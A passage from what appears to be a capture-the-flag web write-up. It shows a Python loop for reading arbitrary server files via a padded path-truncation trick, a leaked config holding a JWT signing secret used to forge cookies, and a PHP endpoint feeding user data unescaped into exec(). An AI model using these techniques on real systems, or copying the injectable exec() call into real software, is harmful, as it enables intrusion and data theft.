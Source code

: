 ```python
    for file in self.list_files():
        if file.get('name') == name:
            id = file.get('id')
            response = self.s.get(_(f'/api/files.php?id={id}'))
            if response.ok:
                print("FOUND: ", name)
                return response.text
    return "Not found"

def list_files(self):
    response = self.s.get(_(path='/api/files.php'))
    return response.json()

while True:
    fname = input("filename:")
    print(c.write_file(fname))
```

Notice how at the end of the path we submit there is a user-writable directory and at some point there is the file that we actually want to read. Then we go in&out of the same directory to just reach the 512 character limit.

Including some of the files of the challenge as `/var/www/html/api/files.php` we saw that it includes a file `/var/www/html/api/init.php`, that includes `/var/www/html/api/config.php`:

```php
<?php
header('Access-Control-Allow-Headers: Content-Type');
header('Access-Control-Allow-Origin: *');
header('Wp-Ctf: WP{h1d3_http_h34d3rz}');

const JWT_SECRET = "WP{fr0m_bl4ckb0x_2_wh1t3b0x}";
define("DB_HOST", getenv("DB_HOST"));
define("DB_USER", getenv("DB_USER"));
define("DB_PASS", getenv("DB_PASS"));
define("DB_NAME", getenv("DB_NAME"));
define("UPLOAD_PATH", getenv("UPLOAD_PATH"));
define("TEAM_NAME", getenv("TEAM_NAME"));

header('Wp-Ctf-Team-Name: ' . TEAM_NAME);

set_include_path(get_include_path() . PATH_SEPARATOR . dirname(getcwd()).'lib/');
```

We have the secret used to sign jwt tokens, we can now sign our own cookies! But how is this useful? 

### Jay-Woo-Tee - WP{3v3n_jwt_c0nt3nt_c4n_b3_d4nger0us}

Let’s include every other file we know about: `/var/www/html/api/filesdownloadall.php`.

```php
<?php

include_once "init.php";

use Wp\Sfb\Auth\PermissionHandler;

$user = PermissionHandler::getAuthenticatedUser();
if (!$user->canDownload()) {
    http_response_code(403);
    exit();
}
$tmp_f_name = tempnam("/tmp", $user->getGroupId());
$cmd_compress = "tar czf $tmp_f_name " . UPLOAD_PATH . "/" . $user->getGroupId();
exec($cmd_compress, $output, $retval);
```
